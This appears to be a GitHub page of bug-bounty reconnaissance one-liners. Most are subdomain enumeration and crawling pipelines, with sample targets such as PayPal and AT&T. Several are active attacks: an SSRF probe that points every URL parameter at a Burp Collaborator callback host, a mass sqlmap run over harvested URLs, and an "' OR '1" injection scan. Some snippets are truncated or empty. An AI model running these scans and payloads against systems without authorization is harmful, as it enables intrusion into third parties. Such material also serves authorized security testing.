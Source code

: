 ```bash
curl https://chaos-data.projectdiscovery.io/index.json | jq -M '.[] | .URL | @sh' | xargs -I@ sh -c 'wget @ -q'; mkdir bounty ; unzip '*.zip' -d bounty/ ; rm -rf *zip ; cat bounty/*.txt >> allbounty ; sort -u allbounty >> domainsBOUNTY ; rm -rf allbounty bounty/ ; echo '@OFJAAAH'
```
**Recon to search SSRF Test**
```bash
findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```
**ShuffleDNS to domains in file scan nuclei.**
```bash
xargs -a domain -I@ -P500 sh -c 'shuffledns -d "@" -silent -w words.txt -r resolvers.txt' | httpx -silent -threads 1000 | nuclei -t /root/nuclei-templates/ -o re1
```
**Search Asn Amass**
```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''
```
**SQLINJECTION Mass domain file**
```bash
httpx -l domains -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```
**Using chaos search js**
```bash
chaos -d att.com | httpx -silent | xargs -I@ -P20 sh -c 'gospider -a -s "@" -d 2' | grep -Eo "(http|https)://[^/"].*.js+" | sed "s**
```
**Search Subdomain using Gospider**
```bash
gospider -d 0 -s "https://site.com" -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```
**Using gospider to chaos**
```bash
chaos -d paypal.com -bbq -filter-wildcard -http-url | xargs -I@ -P5 sh -c 'gospider -a -s "@" -d 3'
```
**Using recon.dev and gospider crawler subdomains**
```bash
curl "https://recon.dev/api/search?key=apiKEY&domain=paypal.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | anew |httpx -silent | xargs -P3 -I@ gospider -d 0 -s @ -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```
**PSQL - search subdomain using cert.sh**
```bash
psql -A -F , -f querycrt -h http://crt.sh -p 5432 -U guest certwatch 2>/dev/null | tr ', ' '\n' | grep twitch | anew
```
**Search subdomains using github and httpx**
- [Github-search](https://github.com/gwen001/github-search)
```python
./github-subdomains.py -t APYKEYGITHUB -d domaintosearch | httpx --title
```
**Search SQLINJECTION using qsreplace search syntax error**
```bash
grep "="  .txt| qsreplace "' OR '1" | httpx -silent -store-response-dir output -threads 100 | grep -q -rn "syntax\|mysql" output 2>/dev/null && \printf "TARGET \033[0;32mCould Be Exploitable\e[m\n" || printf "TARGET \033[0;31mNot Vulnerable\e[m\n"
```
**Search subdomains using jldc**
```bash
curl -s "https://jldc.me/anubis/subdomains/att.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew
```
**Search subdomains in assetfinder using hakrawler spider to search links in content responses**
```bash
```